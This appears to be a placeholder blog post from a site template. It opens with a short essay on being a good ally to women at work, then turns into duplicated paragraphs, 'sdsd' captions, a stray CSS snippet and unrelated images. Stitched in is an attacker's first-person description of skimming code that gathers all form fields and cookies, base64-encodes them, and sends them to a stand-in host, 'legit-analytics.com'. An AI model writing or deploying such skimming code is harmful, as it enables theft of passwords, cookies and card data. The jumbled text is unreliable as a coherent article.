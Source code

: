 ```yaml
---
path: '/second-post'
title: 'Second Blog Post'
published: true
date: '2017-11-23'
author: 'James Willis'
minutes: '4'
---
```


## Be a Pal, My Dudes
### A few specific ideas for being a good ally

So, we run a [workshop](google.com) to help women reduce the impact of gender bias in the workplace. A commonly asked question is something like “Why aren’t you running a workshop for men, since they are the ones who have to change?” The short answer is that it’s a complex dynamic, and women have the most incentive to change it. Our approach is to help decrease the amount of effort overall since women in male-dominated workplaces are already putting in so much extra because of bias. If you want to change habits, start where there are already strong incentives for change.

The longer answer is, we’re working on it.

In the meantime, I know there are a lot of men out there right now with good intentions who want to help change things, but it’s not always clear which actions are most helpful. And asking the people who are already doing extra work to do the additional work of teaching you how to help them do less work is…annoying. This is true for anyone who has more privilege in any given situation. Do your part to make it easier.

***

In the meantime, I know there are a lot of men out there right now with good intentions who want to help change things, but it’s not always clear which actions are most helpful. And asking the people who are already doing extra work to do the additional work of teaching you how to help them do less work is…annoying

![This is a caption](https://images.unsplash.com/photo-1506269351850-0428eaed2193?ixlib=rb-0.3.5&ixid=eyJhcHBfaWQiOjEyMDd9&s=a1512d7659e4817df8217cdb9aa09d7a&auto=format&fit=crop&w=1350&q=80)
<figcaption>sdsd</figcaption>

```css
#header h1 a {
  display: block;
  width: 300px;
  height: 80px;
}
```


Then, when there’s a blur event on a password/credit card field, or a form submit event is heard, my code:

* Takes data from all form fields (document.forms.forEach(…)) on the page
* Grabs document.cookie
* It turns all that into a random looking string const payload = btoa(JSON.stringify(sensitiveUserData))
* Then sends it off to `https://legit-analytics.com?q=${payload}` (not the real domain, of course)
* In `short`, if ```it looks``` like data that might be even remotely valuable to me, I send it off to my server.

> f an attacker successfully injects any code at all, it’s pretty much game over

In some wise words from <u>Google</u>:

  ![My image](https://upload.wikimedia.org/wikipedia/commons/b/be/Sharingan_triple.svg)
  <figcaption>sdsd</figcaption>
